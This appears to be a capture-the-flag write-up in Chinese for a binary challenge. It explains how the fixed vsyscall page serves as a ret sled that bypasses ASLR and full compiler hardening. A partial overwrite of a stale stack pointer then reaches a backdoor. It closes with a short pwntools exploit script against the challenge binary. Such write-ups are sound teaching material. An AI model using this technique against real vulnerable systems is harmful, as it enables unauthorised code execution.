


# 无法利用的漏洞

- 题目分类：binary

- 题目分值：300

「我写了一个不会被黑的程序！」

「谁信啊，难不成你就写了个 Hello, world？」

「当然不。我把编译器所有安全加固的选项都开启了，就算我故意留漏洞，你也没办法利用。」

「嗯？」

`nc 202.38.93.241 10014` 或者使用 [网页终端](http://202.38.93.241:10015/?token={token})

Hint: Do you know how to make syscall faster?

[打开/下载题目](src/impossible)

---
本题考查利用vsyscall实现漏洞利用，利用条件是栈上的数据没有清理干净同时系统开启了vsyscall。这道题是希望理解了基本ROP的同学通过提示“Do you know how to make syscall faster?”学习vsyscall的利用方法。这个漏洞有趣的地方在于，只要满足利用条件，即使开了aslr而且编译器保护全开也能劫持控制流。

# 解答
vsyscall的全称是virtual system call，当初引入这个机制是为了减少系统调用时从用户态切换到内核态的开销。某些系统调用并不会向内核传递参数，而仅仅是从内核里请求读取某个数据，比如gettimeofday。所以可以直接把gettimeofday的实现直接映射到用户空间中，这样就避免了用户态到内核态转换的开销。（实际上还有个好处是对于gettimeofday这种对时间要求比较精确的函数，实现快速系统调用更加的科学）
但是vsyscall有很严重的安全问题，vsyscall用户空间映射的地址是固定的，64位系统上是0xffffffffff600000。把题目在开启了vsyscall的机器上跑起来，查看一下内存映射状态如下：



虽然设计者限制了只有从vsyscall的函数入口进入才能正常运行(避免了拿这个ret作为gadget来ROP),但是我们可以反复调用vsyscall来不断地调用ret像滑雪橇一样破坏栈平滑。只要栈上有.text段的地址没有清除干净，通过修改最低位就劫持了控制流。把二进制文件丢到IDA里分析一波发现其实留了个后门，那么思路就很简单了,只要栈上数据不干净就能利用了。gdb打个断点看看栈上的情况：



果然没有清理干净，那么直接写exp然后就pwn成功啦！

```python
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
import random, string
from hashlib import sha256
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
debug = 1

if debug:
    io = process('./impossible')
else:
    io = remote("127.0.0.1", 10001)

io.recvuntil("Hack me please!\n")
gdb.attach(io.pid)
vsyscall = 0xffffffffff600000
io.interactive()
io.send(p64(vsyscall)*30+'\x6b')
io.recv()
io.sendline('/bin/sh')
io.sendline('cat flag')
io.interactive()
```
